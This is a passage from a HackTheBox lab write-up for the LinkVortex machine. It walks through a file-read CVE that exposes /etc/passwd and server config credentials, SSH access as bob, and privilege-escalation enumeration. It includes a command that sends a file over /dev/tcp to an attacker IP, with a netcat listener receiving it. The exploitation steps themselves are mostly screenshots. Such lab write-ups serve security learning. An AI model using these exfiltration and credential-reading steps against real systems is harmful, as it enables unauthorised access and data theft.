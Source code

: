 Response 
![[HackTheBox/Linux/attachments/Pasted image 20250512233359.png]]

Now curl the URL of the test.png image location
![[HackTheBox/Linux/attachments/Pasted image 20250512233513.png]]
- we get the /etc/passwd file of the server 👀

#### Using the exploit script for this CVE

![[HackTheBox/Linux/attachments/Pasted image 20250512233657.png]]
- got the /etc/passwd of the server 

Use this exploit script to read the config of the web server 

![[HackTheBox/Linux/attachments/Pasted image 20250512233817.png]]

Result
![[HackTheBox/Linux/attachments/Pasted image 20250512233901.png]]
- got username and password

### SSH in as Bob 

Use creds discovered in the config file to ssh in as bob 

![[HackTheBox/Linux/attachments/Pasted image 20250512234013.png]]

❗initial access as bob❗

#### Enumerating for priv esc 

```
ls -la 
```

![[HackTheBox/Linux/attachments/Pasted image 20250512234208.png]]

```
sudo -l
```

![[HackTheBox/Linux/attachments/Pasted image 20250512234233.png]]
- bob can run bash on `/opt/ghost/clean_symlink.sh *.png`

Checking out this script by sending it over to Kali 

On LinkVortex:
```
cat /opt/ghost/clean_symlink.sh > /dev/tcp/10.10.14.8/9001
```
On Kali:
```
nc -lvnp 9001 > clean_symlink.sh
```
